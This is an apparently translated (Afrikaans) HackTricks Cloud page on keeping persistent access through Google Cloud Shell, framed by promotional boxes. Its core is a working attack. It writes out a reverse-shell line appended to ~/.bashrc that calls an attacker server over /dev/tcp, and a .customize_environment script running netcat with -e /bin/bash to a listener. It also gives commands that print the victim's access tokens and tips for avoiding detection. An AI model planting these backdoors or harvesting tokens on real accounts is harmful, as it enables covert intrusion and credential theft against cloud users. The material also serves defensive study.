 # GCP - Cloud Shell Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github-opslag.

</details>

## Cloud Shell

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Volgehoue Agterdeur

[**Google Cloud Shell**](https://cloud.google.com/shell/) bied jou die moontlikheid om vanaf jou webblaaier direkte opdraglyn-toegang tot jou wolkbronne te verkry sonder enige verbonde koste.

Jy kan Google se Cloud Shell vanaf die **webkonsol** toegang of **`gcloud cloud-shell ssh`** hardloop.

Hierdie konsol het 'n paar interessante vermoëns vir aanvallers:

1. **Enige Google-gebruiker met toegang tot Google Cloud** het toegang tot 'n ten volle geauthentiseerde Cloud Shell-instantie (Diensrekeninge kan, selfs al is hulle eienaars van die organisasie).
2. Genoemde instantie sal **sy tuisgids vir ten minste 120 dae handhaaf** as geen aktiwiteit plaasvind nie.
3. Daar is **geen vermoë vir 'n organisasie om die aktiwiteit** van daardie instantie te monitor nie.

Dit beteken basies dat 'n aanvaller 'n agterdeur in die tuisgids van die gebruiker kan plaas en solank die gebruiker elke 120 dae ten minste na die GC Shell verbind, sal die agterdeur oorleef en die aanvaller sal elke keer 'n skaal kry wanneer dit uitgevoer word deur eenvoudig te doen:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Daar is 'n ander lêer in die tuisgids genaamd **`.customize_environment`** wat, indien dit bestaan, **elke keer uitgevoer sal word** as die gebruiker toegang tot die **wolkmussel** verkry (soos in die vorige tegniek). Voeg net die vorige agterdeur in of een soortgelyk om volharding te behou solank as wat die gebruiker die wolkmussel "gereeld" gebruik:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Dit is belangrik om op te let dat die **eerste keer wanneer 'n aksie wat verifikasie vereis, uitgevoer word**, 'n pop-up verifikasie-venster in die gebruiker se webblaaier verskyn. Hierdie venster moet aanvaar word voordat die bevel uitgevoer kan word. As 'n onverwagte pop-up verskyn, kan dit verdenking wek en moontlik die volhardingsmetode wat gebruik word, in gevaar bring.
{% endhint %}

Dit is die pop-up van die uitvoering van `gcloud projects list` vanaf die wolkshell (as aanvaller) wat in die webblaaier se gebruikersessie gesien word:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nietemin, as die gebruiker aktief die wolkshell gebruik het, sal die pop-up nie verskyn nie en kan jy **gebruikers se tokens versamel met**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Hoe die SSH-verbinding tot stand gebring word

Basies word hierdie 3 API-oproepe gebruik:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (sal jou laat jou openbare sleutel wat jy plaaslik geskep het, byvoeg)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (sal jou laat die instansie begin)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (sal jou die IP van die Google Cloud Shell vertel)

Maar jy kan verdere inligting vind by [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Verwysings

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github-repos.

</details>
